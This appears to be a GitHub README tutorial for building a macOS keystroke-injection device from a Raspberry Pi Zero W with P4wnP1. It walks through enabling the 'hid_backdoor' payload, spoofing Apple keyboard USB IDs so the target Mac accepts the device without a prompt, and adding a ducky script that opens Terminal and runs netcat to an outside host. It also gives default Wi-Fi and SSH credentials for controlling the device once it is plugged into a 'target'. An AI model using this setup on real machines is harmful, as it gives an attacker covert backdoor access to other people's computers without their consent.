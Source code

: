 # Pi zero rubber ducky OSX

## What you will need: 
* Raspberry-pi-zero-w
* USB to ethernet adapter
* SSD card 
* Montor with HDMI 
* Pi-HDMI-Mini HDMI Adapter-Micro



## How to install

### Downlaod and Install Raspbian Lite
Download the [Stretch Lite image](https://www.raspberrypi.org/downloads/raspbian/) to your computer and 
write the image to the your SD card. I recommend using [etcher](https://www.balena.io/etcher/)


### Setting up P4wnP1
Connect your PI to a monitor, and use the USB to ethernet adapter to get internet connection. This can be done with wifi sharing, from your computer, but I found it easier to just connect it directly to your router. (Note that the Raspberry Pi zero w comes with two micro usb ports, where only the left can read data.) So make sure that the power comes from the right usb port and the USB to ethernet adapter is connected to the left usb port. 

Once connected you need to install P4wnP1 (This takes a good amount of time) 

```
sudo apt-get -y install git
cd /home/pi
git clone --recursive https://github.com/mame82/P4wnP1
cd P4wnP1
./install.sh
```
Once the installation is done, move to the next section. 

### Change payload: 
Now we need to change the payload to open a backdoor for us.
```
nano P4wnP1/setup.cfg
```

Change line 134 
from: 
```
PAYLOAD=network_only.txt
```

to:
```
#PAYLOAD=network_only.txt
```
Change line 146
from:
```
#PAYLOAD=hid_backdoor.txt # under (heavy) development
```

to:
```
PAYLOAD=hid_backdoor.txt # under (heavy) development
```

### Making it work for OSX
There are a few issues that needs to be resolved before we can make run our USB rubber ducky on OSX, if you are intrested in reading more about them you can do so [her](https://github.com/mame82/P4wnP1/issues/168).

First we have to change vendor and product id to Apple keyboard id in setup.cfg and in hid_keyboard.txt. This is important because otherwise the OSX will ask us to set up a keyboard everytime we plug in our rubber ducky. 

```
nano P4wnP1/setup.cfg
```
Change line 13 and 14 to: 
from:
```
USB_VID="0x1d6b"        # Vendor ID
USB_PID="0x0137"        # Product ID
```

to:
```
USB_VID="0x05ac"        # Vendor ID
USB_PID="0x024f"        # Product ID
```

There is also a second issue that is addressed in the issue post liked above, and that is that there is a command in boot_P4wnP1 that just hangs forever. A solution by the user @izeau that worked is to simply add a timeout to the line of code that causes this problem. 

```
nano  P4wnP1/boot/boot_P4wnP1
```
Change line 200

from: 
```
python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```

to:
```
timeout 5 python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```

## Add your ducky scripts:
The ducky scripts that comes with P4wnP1 are not for OSX, and you will therefor have to write these yourself. There are some ducky script available online that you can check out [her](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads), however I would recommend to just add my simple ducky script first to make sure everything works. 

To add a ducky script simply do the following: 

```
cd P4wnP1/DuckyScripts
touch StartWars.duck
nano StartWars.duck
```
Add the following script: 
```
GUI SPACE
DELAY 500
STRING terminal
DELAY 500
ENTER
DELAY 1000
STRING nc towel.blinkenlights.nl 23
DELAY 500
ENTER
DELAY 500

```

## Prank your first target
Select your target mac and connect the Pi to it.(You only need to use the usb data port now, since the pi will get power from the target machine.). Once connected the PI will create a WIFI network named P4wnP1. Connect to the network with the password: "MaMe82-P4wnP1". Once connected to the network you can SSH into your pi: 

```
ssh pi@172.24.0.1 
```
Password for SSH is: raspberry 

You can now type help to navigate or simply just run your ducky scripts. 

## Credit
**mame82** https://github.com/mame82/P4wnP1/blob/master/INSTALL.md

**Seytonic** https://www.youtube.com/watch?v=Pft7voW5ui8&t=413s
